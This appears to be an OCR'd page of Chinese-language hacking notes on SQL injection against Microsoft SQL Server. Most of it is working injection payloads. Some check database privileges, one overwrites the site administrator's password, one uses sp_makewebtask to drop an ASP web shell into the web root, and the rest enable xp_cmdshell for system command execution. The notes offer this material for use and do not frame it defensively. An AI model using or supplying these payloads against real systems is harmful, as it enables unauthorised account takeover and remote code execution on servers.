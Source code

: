   * 判断是否是public权限
  ```sql
  id=1 and 1=(select is_srvrolemember('public')) 
  ```
  
  * 判断是否有库读取权限
  ```sql
  id=1 and 1=(select HAS_DBACCESS('master'))   ```
  >is_srvrolemember函数返回1代表是，0代表否

* **Sa权限利用**
  * 修改网站管理员密码
  当获得管理员密码，但是md5解不出来时，可以使用sql语句更改管理员密码：
  ```sql
  id=1;update admin set pass='adfasdfadfas' where admin='cracer'
  ```
  
  * 直接getshell 使用sp_makewebtask

    1）修复上传 :
    ```sql
    id=1;EXEC sp_configure 'show advanced options',1;
    RECONFIGURE;
    exec sp_configure 'Web Assistant Procedures',1;
    ```
  
    2）getshell：
    ```sql
    ;exec sp_makewebtask
     'C:\Inetpub\wwwroot\8005\x1.asp','select''<%execute(request("cmd"))%>'''--'
    ```
    
    3）执行：
    [@outputfile =] 'outputfile'
    在 Microsoft® SQL Server™ 的实例上生成的 HTML 文件的位置。如果文档将在远程计算机上生成，则该参数可以是 UNC 名称。outputfile 的数据类型为 nvarchar(255)，没有默认值。

    [@query =] 'query'
    要运行的查询。query 的数据类型为 ntext，没有默认值。当通过 sp_runwebtask 运行任务时，查询结果将以表格形式显示在 HTML 文档中。可以指定多个 SELECT 查询，从而导致在 outputfile 中显示多个表。
    
  * 调用系统命令 使用xp_cmdshell（创建系统管理员，操控文件，操控日志文件，getshell）
  
    1）判断xp_cmdshell扩展是否存在
    ```sql
    id=1 and 1=(select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell')
    ```
    2）判断xp_regread扩展是否存在
    ```sql
    id=1 and 1=(select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_regread')
    ```
    3）恢复上传
    ```sql
    exec sp_configure 'show advanced options',1;
    RECONFIGURE;
    exec sp_configure 'xp_cmdshell',1;
    RECONFIGURE;
    ```
    